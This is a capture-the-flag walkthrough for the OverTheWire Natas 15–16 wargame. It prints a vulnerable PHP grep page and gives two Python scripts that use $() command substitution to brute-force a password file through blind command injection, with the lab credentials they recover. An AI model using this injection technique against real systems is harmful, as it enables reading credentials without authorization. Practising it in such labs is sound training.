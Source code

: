 `Link` : `https://overthewire.org/wargames/natas/natas16.html`

## [𝐖𝐚𝐥𝐤𝐭𝐡𝐫𝐨𝐮𝐠𝐡] ~ 𝐍𝐚𝐭𝐚𝐬 𝐋𝐞𝐯𝐞𝐥 𝟏𝟓 - 𝐋𝐞𝐯𝐞𝐥 𝟏𝟔
## 𝐆𝐢𝐯𝐞𝐧
- Username: natas16
- URL:      `http://natas16.natas.labs.overthewire.org`

## 𝐒𝐨𝐥𝐮𝐭𝐢𝐨𝐧

- Visit:     `http://natas16.natas.labs.overthewire.org`
- `viewsource`

```
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
```
- Notice: `  if(preg_match('/[;|&`\'"]/',$key)) {`
- All possible characters for command injection are blocked
- We have `passthru("grep -i \"$key\" dictionary.txt");`
- What could you think of?
  - [ ] character escape won't work
  - [ ] encoding won't work because of preg_match
  - [x] In bash, we can pass output of another command into another command using `$(command)`

- Let's check if `$(echo hello)` works! It works
- Now: `grep -i "$(command)" dictionary.txt"`
  - It means whatever will be the output of `command`, that string will get searched into dictonary.txt
- Let's find a unique word in dictionary! Let's say `Americanisms`
- We can now brute force password!
- The logic will be:
  - If output of a command will be null, then `Americanisms` will be displayed, else no output
  - we can use `grep` to do this 
  - For example:
    - If a character exists then we will get a long output which when searched for in `dictionary.txt` will result in no output & vice versa
    - ![image](https://user-images.githubusercontent.com/68887544/149658683-1b8a802c-d7bb-4e04-ac0d-d88139734b74.png)
- Let's write a brute force script:

```
import requests

print("brute forcing existing chars!")

username = "natas16"
password = "WaIHEacj63wnNIBROHeqi3p9t0m5nhmh"
characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

word = "Americanisms"
exists = ""

for char in characters:
    url = "http://natas16.natas.labs.overthewire.org/index.php?needle=Americanisms%24(grep "+ char +" /etc/natas_webpass/natas17)&submit=Search"
    response = requests.get(url, auth=(username, password))
    if word not in response.text:
        exists += char
    print("checked: ", char, end="\r")

print("exists: ", exists)

```

```
                                                                                                                 
┌──(shreyas㉿kali)-[~/scripts]
└─$ python3 natas16-chars.py
brute forcing existing chars!
exists:  bcdghkmnqrswAGHNPQSW035789

```

- Now that we determined which characters exists and which not, we can use regex to brute force exact password
- `grep ^chars filename`:
  - ![image](https://user-images.githubusercontent.com/68887544/149658838-13227bc0-a248-4e20-abc5-27f7ecea4d73.png)


```
import requests

username = "natas16"
password = "WaIHEacj63wnNIBROHeqi3p9t0m5nhmh"

exists = "bcdghkmnqrswAGHNPQSW035789"
word = "Americanisms"
natas17_password = ""
length = 32 - len(natas17_password)

print("Characters: ", exists)
print("Starting brute force! Enjoy till then...")

while length:
    for char in exists:
        url = "http://natas16.natas.labs.overthewire.org/index.php?needle=Americanisms%24(grep ^"+ natas17_password + char +" /etc/natas_webpass/natas17)&submit=Search"
        response = requests.get(url, auth=(username, password))
        if word not in response.text:
            natas17_password += char
        length = 32 - len(natas17_password)

    print(f"remaining length: {length} & password: {natas17_password}")

```
```
                                                                                             
┌──(shreyas㉿kali)-[~/scripts]
└─$ python3 natas16-bruteforce.py
Characters:  bcdghkmnqrswAGHNPQSW035789
Starting brute force! Enjoy till then...
remaining length: 31 & password: 8
remaining length: 30 & password: 8P
remaining length: 28 & password: 8Ps3
remaining length: 26 & password: 8Ps3H0
remaining length: 24 & password: 8Ps3H0GW
remaining length: 21 & password: 8Ps3H0GWbn5
remaining length: 20 & password: 8Ps3H0GWbn5r
remaining length: 18 & password: 8Ps3H0GWbn5rd9
remaining length: 16 & password: 8Ps3H0GWbn5rd9S7
remaining length: 15 & password: 8Ps3H0GWbn5rd9S7G
remaining length: 13 & password: 8Ps3H0GWbn5rd9S7GmA
remaining length: 10 & password: 8Ps3H0GWbn5rd9S7GmAdgQ
remaining length: 9 & password: 8Ps3H0GWbn5rd9S7GmAdgQN
remaining length: 7 & password: 8Ps3H0GWbn5rd9S7GmAdgQNdk
remaining length: 5 & password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhP
remaining length: 2 & password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9
remaining length: 0 & password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

```

- `remaining length: 0 & password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw`

## 𝐋𝐞𝐚𝐫𝐧𝐢𝐧𝐠

- Regular expression (Learn from the linux commandline book)
